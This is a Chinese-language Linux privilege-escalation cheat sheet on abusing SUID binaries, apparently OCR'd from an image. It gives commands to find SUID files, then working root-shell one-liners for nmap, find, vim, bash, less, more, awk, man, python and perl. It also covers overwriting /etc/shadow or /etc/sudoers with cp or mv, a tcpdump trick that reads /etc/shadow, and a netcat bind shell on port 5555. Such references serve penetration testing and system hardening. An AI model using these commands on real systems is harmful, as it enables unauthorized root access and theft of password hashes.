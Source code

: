 SUID 权限提升
Linux提权中，可以用的SUID文件来提权，SUID的作用就是：让本来没有相应权限的用户运行这个程序时，可以访问没有权限访问的资源。通常可以使用一下命令来找有SUID标志位的文件：

find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
例如nmap

ls -l /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 2008-04-08 10:04 /usr/bin/nmap
存在s 则表示其存在SUID标志位，并拥有root的执行权限。以下是几类可用于提权的文件总结：

1.Nmap

老版本的nmap（2.02-5.21）有 interactive，是允许用户执行系统命令的。提权方式

nmap --interactive
之后执行命令：

nmap> !sh
sh-3.2# whoami
root
msf中的模块为：

exploit/unix/local/setuid_nmap
2.Find

touch test
find test -exec whoami \;
如果服务器上装了nc，可以直接使用以下命令进行监听：

find test -exec netcat -lvp 5555 -e /bin/sh \;
之后进行连接：

netcat 192.168.1.100 5555
则可获取root shell

3.vim/vi

打开vim,按下ESC

:set shell=/bin/sh
:shell
则可执行命令

4.bash

bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)
5.less

less /etc/passwd
!/bin/sh
6.more

more /home/pelle/myfile
!/bin/bash
7.cp

使用cp覆盖 /etc/shadow

8.mv

使用mv 覆盖 /etc/shadow 或者/etc/sudoers

9.awk

awk 'BEGIN {system("/bin/bash")}'
10.man

man passwd
!/bin/bash
11.python/perl/ruby/lua/etc

perl

exec "/bin/bash";
python

import os
os.system("/bin/bash")
12.tcpdump

echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root